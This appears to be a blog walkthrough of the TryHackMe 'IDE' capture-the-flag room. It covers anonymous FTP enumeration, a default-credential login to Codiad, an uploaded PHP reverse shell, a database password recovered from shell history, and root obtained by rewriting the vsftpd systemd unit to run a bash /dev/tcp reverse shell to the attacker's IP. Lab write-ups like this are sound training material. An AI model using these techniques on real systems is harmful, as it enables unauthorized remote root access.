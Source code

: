 ```yaml
---
layout: post
title: Walkthrough - IDE
published: true
---
```


Enumeration, Public Exploit, PrivEsc, FTP. Easy box for enumeration.

[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)

* * *

## Notes

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%), QNAP QTS 4.0 - 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

- Codiad 2.8.4
- ``searchsploit``
- After bashing my head against the wall for a few hours going back into the ftp and browsing previous directories can see a file named ``-`` we can get that and check it out

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

- can login to the Codiad with ``john:password``
- inside the clouscall folder uploaded pentestmonkey php shell and setup a listener to get a shell.
- running linpeas we find a password in history

```
mysql -u drac -p 'Th3dRaCULa1sR3aL' 
```

we can login to drac with these creds.

* * * 

## What is the user flag?

![](/assets/ide01.png)

- `sudo -l`

```
User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

This means I can restart the vsfptd server and this is great news because checking `ps aux` the vsftpd runs as root so we should be able to take advantage of this somehow.

- `find / -type f -name "vsftpd.*" 2>/dev/null`

Because we are restarting the service lets check out this file

- `nano /lib/systemd/system/vsftpd.service`

and edit it to send us a root reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'


[Install]
WantedBy=multi-user.target
```

- and restart the server after setting up listener

* * * 

## What is the root flag?

![](/assets/ide02.png)

* * * 

